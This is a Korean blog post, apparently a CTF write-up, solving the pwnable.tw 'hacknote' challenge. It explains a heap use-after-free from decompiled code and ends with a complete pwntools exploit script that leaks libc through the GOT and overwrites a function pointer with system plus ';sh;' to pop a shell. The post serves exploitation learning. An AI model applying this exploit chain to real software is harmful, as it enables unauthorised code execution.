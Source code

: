 ```yaml
---
layout: post
title: "pwnable.tw - hacknote"
date: 2018-10-30
excerpt: "Use After Free"
tags: [write-up]
comments: true
---
```

Use After Free 취약점을 이용한 heap exploit
* * *
![main](https://t1.daumcdn.net/cfile/tistory/99A1D3345BC8899029)

메인은 간단하게
1. Add note
2. Delete note
3. Print note
4. Exit

으로 이루어져있으며 히든 메뉴는 없습니다.
```c
unsigned int sub_8048646()
{
  _DWORD *v0; // ebx
  signed int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf; // [esp+14h] [ebp-14h]
  unsigned int v5; // [esp+1Ch] [ebp-Ch]
 
  v5 = __readgsdword(0x14u);
  if ( dword_804A04C <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = sub_804862B;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++dword_804A04C;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```
위는 Add note의 디컴파일된 코드인데, 대부분의 heap exploit 바이너리처럼 일반적인 방식으로 malloc만 하는 것이 아니라

바이너리 자체에서 특수한 방식으로 note을 배열하고 관리합니다.

![chunk](https://t1.daumcdn.net/cfile/tistory/99C6A23D5BC88BF702)

Add note로 생성된 note는 위와 같은 형태로 구성되며
```c
int __cdecl sub_804862B(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```
위 코드처럼 인자+4를 출력하는, 그림에선 puts(+4)로 표현되어 있는 함수 주소와

우리가 입력한 데이터의 주소를 user_data로 가지는 chunk가 먼저 할당되고, 그 밑에 사용자가 요청한 chunk가 할당됩니다.

또한 Delete note시 heap N-1이 먼저 free되고, heap N-2가 그 다음으로 free됩니다. 하지만 ptr은 남아있어 exploit에 이용됩니다.
```c
unsigned int sub_80488A5()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]
 
  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[v1] )
    (*(void (__cdecl **)(void *))ptr[v1])(ptr[v1]);
  return __readgsdword(0x14u) ^ v3;
}
```
Print note를 눈여겨보아야 하는데, 지정한 인덱스의 chunk의 puts(+4)를 인자로 puts(+4)를 call합니다.

따라서 만약 우리가 puts(+4)와 &data를 임의의 값으로 바꾸면 Print note시 원하는 함수를 실행할 수 있습니다.

일단 exploit 루트는 uaf인데, fastbin을 두 개 할당해주고 한번 free하면 heap N-1과 heap N-2의 크기 차이로 다른 fastbin에 들어가게 됩니다.

![fastbin](https://t1.daumcdn.net/cfile/tistory/992BF6445BC8902010)

이 후 더 작은 크기의  fastbin을 요청하면 heap N-1과 heap N-2 모두 (저 상황에서) 0x10 fastbin에서 할당됩니다. (배열 꼬임)

fastbin의 특성상 두번째 free된 chunk가 먼저 할당되고, 첫번째 heap N-1이 우리가 새롭게 할당된 chunk N-2의 위치가 되는 것입니다.

ptr은 유지되어 우리가 puts(+4)는 유지한채 아무 함수의 got를 &data에 덮어 씌우면  Print note시 libc leak이 가능하게 됩니다.


libc leak 후 offset을 이용해 system을 구하면 같은 원리로 쉘 취득이 가능합니다.

이떄 Print note로 실행되는 함수는 함수 주소와 인자가 같아(ptr[v1]) 단순히 system + &/bin/sh을 넘긴다면 system("&system/binsh")가 되므로 쉘을 얻을 수 없습니다. 

그러므로 단순히 system + ";sh;"를 넘기면 system("&system;sh;")로 쉘이 따집니다.

exp.py
```python
from pwn import *
 
#p = process('./hacknote')
p = remote('chall.pwnable.tw', 10102)
e = ELF('./hacknote')
 
puts_got = e.got['puts']
print_4 = 0x0804862b
 
 
puts_offset = 0x5f140
system_offset = 0x3a940
 
'''
PROCESS
puts_offset = 0x5fca0
system_offset = 0x3ada0
'''
 
def alloc(size, payload):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.sendline(payload)
 
def free(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))
    
def dump(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))
 
# leak libc
alloc(24, 'AAAA')
alloc(24, 'BBBB')
 
free(0)
free(1)
payload = p32(print_4)
payload += p32(puts_got)
 
alloc(12, payload)
dump(0)
 
leak = u32(p.recv(4))
 
base = leak - puts_offset
system = base + system_offset
 
log.success('libc base leaked : ' + hex(base))
 
#exploit
free(2)
 
payload = p32(system)
payload += ";sh;"
 
alloc(8, payload)
dump(0)
 
p.interactive()
```
* * *
UAF는 의도치 않게 heap 배열이 꼬여버리는 현상에서 시작되는 것 같습니다.
